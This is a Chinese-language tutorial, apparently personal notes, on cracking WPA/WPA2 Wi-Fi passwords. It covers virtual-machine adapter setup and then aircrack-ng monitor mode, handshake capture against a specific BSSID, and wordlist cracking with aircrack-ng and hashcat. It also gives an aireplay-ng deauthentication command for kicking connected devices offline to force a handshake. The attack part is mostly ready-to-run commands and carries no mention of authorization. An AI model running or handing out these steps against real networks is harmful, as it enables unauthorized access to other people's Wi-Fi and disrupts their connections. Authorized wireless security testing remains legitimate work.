 # 配置网卡

- WM Ware(开机后)

    虚拟机->可移动设备->Ralink 802.11 n Wlan(显卡型号)->连接(断开与主机的连接)

- VBox

    虚拟机关机状态下->将设备插入主机->设置->USB设备->添加->删除除了供应商标识(VendorID)和产品标识(ProductID)之外的参数->开机->插入设备

- 验证是否连接成功

    ```bash
    lsusb
    airmon-ng
    ifconfig
    iwconfig
    ```
    出现无线网卡型号即为成功



# 基础命令












# 简单示例

- 以无线网卡名为wlan0举例

    - `启动网卡`

        airmon-ng start wlan0

    - `关闭干扰程序`

        airmon-ng check kill

    - `开启抓包`

        airodump-ng wlan0mon

    - `指定特定的wifi抓握手包`

        airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon

            -c 指定信道,上面已经标记目标热点的信道(CH)
            -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
            -w 指定抓取的数据包保存的目录

            出现handshake则抓包成功

    - `跑包`

        aircrack-ng -a2 -b 62:C2:95:16:89:B5  -w pass.txt wireless-01.cap

- 使用hashcat爆破(只能跑WPA/WPA2/PSK加密的)

    - `用aircrack-ng把cap转换成hccap类型数据包(会自动添加后缀名.hccap)`

        aircrack-ng wireless-01.cap -J wireless

    - `用hashcat破解WPA/PSK密码`

```
        hashcat -m 2500 wireless.hccap pass.txt --force
        2500是hash类型

        hashcat --example-hashes
        //查看需要的hash认证
```      


    - `若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为`

        aircrack-ng wireless-01.cap -j wireless

- 注意如果抓不到握手包把对方踢下线,这样就会抓包成功

    aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon

        -0 冲突攻击模式,后面跟发送次数,一般使用这个模式即可
















































































